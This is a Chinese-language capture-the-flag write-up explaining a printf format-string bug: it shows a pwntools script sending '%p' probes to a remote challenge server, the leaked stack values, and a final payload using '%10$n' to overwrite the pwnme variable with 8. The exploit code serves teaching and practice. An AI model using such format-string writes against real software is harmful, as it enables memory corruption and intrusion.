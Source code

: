 也就是说我们要修改pwnme的值为8

有没觉得这个printf很奇怪？

在不带参数的情况下，我们一般是这样写的

```cpp
printf(“xxxx”);
```

由此想要直接输出一个字符串s，写

```cpp
printf(&s);
```

也是没有问题的

但是，由于printf接受的第一个参数是可以带%进行格式化控制的。

如果这个时候我们在字符串里写入格式化控制，会printf出来啥呢

比如我们构造这样一个payload:

```python
payload="a"*4+'-%p'*10#%p表示用地址的格式打印变量的值
```

然后扔进写好的exp框架里

```python
#coding=utf-8
from pwn import *
payload="a"*4+'-%p'*20
io=remote("111.198.29.45","51832")
io.sendlineafter("please tell me your name:","eki")
io.sendlineafter("leave your message please:",payload)
io.interactive()
```

返回

```bash
hello eki
your message is:
aaaa-0xffedb8de-0xf77755a0-0xf0b5ff-0xffedb90e-0x1-0xc2-0x6b6548fb-0xa69-(nil)-0x61616161-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d
```

可以看到aaaa对应的"地址"（字符串的值）0x61616161在第十位出现了

所以我们可以把aaaa换成pwnme的地址，然后再利用

%n - 到目前为止所写的字符数

把8写入pwnme的地址(可在ida pro里找到)

就完成了修改pwnme的值的任务

### payload

```python
pwnme_addr=0x0804A068
payload=p32(pwnme_addr)+"%04c"+"%10$n"
#%04c用于输出4个空字符+p32地址的四位就符合8的要求了 %10$n 是为了将%n作用于第10个参数（除去第一个字符串参数）
```
